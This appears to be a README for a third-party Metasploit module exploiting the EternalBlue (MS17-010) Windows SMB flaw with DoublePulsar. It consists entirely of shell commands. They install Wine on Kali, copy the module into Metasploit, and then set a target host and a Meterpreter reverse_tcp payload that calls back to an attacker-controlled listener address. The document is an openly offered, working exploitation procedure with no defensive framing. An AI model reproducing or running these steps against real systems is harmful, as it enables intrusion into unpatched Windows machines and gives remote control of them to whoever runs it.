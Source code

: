 # ms17_010_eternalblue_doublepulsar

### For Kali x64

```sh
dpkg --add-architecture i386 && apt-get update && apt-get install wine32
rm -r ~/.wine && wine cmd.exe
exit
```

### For Kali x86

```sh
rm -r ~/.wine && wine cmd.exe
exit
```

### Download & Install

```sh
cd tmp && git clone https://github.com/hhktony/ms17_010_eternalblue_doublepulsar.git
cp ms17_010_eternalblue_doublepulsar/ms17_010_eternalblue_doublepulsar.rb /usr/share/metasploit-framework/modules/exploits/windows/smb/
mkdir -p /usr/share/metasploit-framework/modules/exploits/smb
cp -r ms17_010_eternalblue_doublepulsar/deps /usr/share/metasploit-framework/modules/exploits/smb
rm -rf ms17_010_eternalblue_doublepulsar
```

### Exploit

```sh
msfconsole

reload_all
use exploit/windows/smb/ms17_010_eternalblue_doublepulsar
# show options
set RHOST 10.0.0.100
set TARGETARCHITECTURE x64
# show targets
# set TARGET 9
set payload windows/x64/meterpreter/reverse_tcp
set LHOST 10.0.0.11
exploit
```
